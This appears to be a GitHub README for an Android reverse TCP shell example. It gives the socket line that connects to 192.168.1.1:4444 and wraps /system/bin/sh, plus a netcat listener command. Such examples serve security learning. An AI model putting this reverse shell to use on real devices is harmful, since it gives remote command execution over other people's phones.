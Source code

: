 AndroidReverseShell
===================

A simple reverse TCP shell example for Android

## Notes

This example makes a reverse TCP connection to 192.168.1.1 on port 4444 wrapping the `system/bin/sh` process.

To edit connection details modify the Socket constructor in the source:

`Socket socket = new Socket("192.168.1.1", 4444);`
		

To listen for a connection use a program such as Netcat to listen on the specified port.

Netcat Server Example: `nc -l -p 4444`
